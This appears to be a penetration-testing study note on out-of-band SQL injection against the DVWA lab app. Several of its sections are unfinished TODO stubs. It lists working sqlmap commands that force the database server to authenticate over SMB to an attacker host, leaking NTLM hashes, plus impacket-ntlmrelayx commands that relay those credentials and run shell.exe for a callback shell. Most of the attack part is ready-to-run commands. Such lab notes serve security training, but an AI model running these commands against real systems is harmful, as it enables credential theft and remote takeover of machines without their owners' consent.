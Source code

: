 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - post-exploitation
  - server-side-attack
  - sqlmap
  - dvwa
---
```

# 03 - Out-of-Band

> [!IMPORTANT] Conditions
> The DB user must have **FILE** and **SELECT** privileges with the flags `--privileges -U CU`.

## 3.1 - Windows

TODO: Fill in this info to test a windows environment

TODO: Test this and place it where it's appropriate

### 3.1.1 - Grab NTLM Hashes via SMB Authentication Relay

- Run [[02 - DBMS Backend Relay Attack|Responder]] to grab the NTLM hashes. This also can be done with [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Authentication Relay/Metasploit#^0c8cfd|metasploit SMB relay auxiliary module]] including [[02 - NTLM Relaying|ntlmrelayx]].

- Responder

```

```

- Metasploit Framework

```
smb_relay
```

- Impacket ntlmrelayx

```
$ sudo impacket-ntlmrelayx -t smb://<target_IP> -smb2support
```

- Exploit the webserver via SQL injection manually using either `--file-read` or `--sql-query`.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="\\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --sql-query="SELECT LOAD_FILE('\\\\<attacker_IP>\\snare.txt')"
```

### 3.1.2 - Authenticated SMB Relay Callback Shell

#### 3.1.2.1 - Automated

- Exploit the webserver via SQL injection with `--os-smbrelay` but run with root privileges.

```
$ sudo sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-smbrelay
```

#### 3.1.2.2 - Manual

Repeat the [[01 - Webshell|previous step]] and launch [[02 - NTLM Relaying|ntlmrelayx]] and/or [[02 - Responder|Responder]] to receive a callback shell connection. This can be done with [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Authentication Relay/Metasploit#^c109ec|metasploit SMB relay exploit module]].

```
$ sudo impacket-ntlmrelayx -t smb://<target_IP> -smb2support -e shell.exe
```